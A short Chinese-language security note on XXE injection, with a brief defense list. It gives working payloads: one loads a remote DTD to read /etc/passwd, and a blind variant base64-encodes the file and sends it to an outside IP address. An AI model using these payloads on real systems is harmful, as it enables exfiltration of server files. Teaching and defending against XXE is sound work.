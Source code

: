 - #### 外部DTD声明+外部实体引用

```xml
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://120.27.61.239/evil.dtd">
<user><username>&xxe;</username><password>1234</password></user>

<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

> 无回显

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://139.9.198.30/test.dtd"> 
%remote;%int;%send; 
]>
<user><username>1</username><password>2ad</password></user>

dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://139.9.198.30/?p=%file'>">

分析
%remote;<!ENTITY % send SYSTEM 'http://139.9.198.30/?p=php://filter/read=convert.base64-encode/resource=/etc/passwd'>http://139.9.198.30/?p=%file;
```

### 防御

1. 禁用外部实体引用：禁用XML解析器中的外部实体引用，或者只允许引用受信任的实体。
2. 使用安全的XML解析器：使用安全的XML解析器，例如libxml2或SAX解析器，这些解析器已经默认禁 用了外部实体引用。
3. 过滤用户输入：对于从用户接收的XML数据，进行严格的输入验证和过滤，以防止恶意XML文件被解 析。

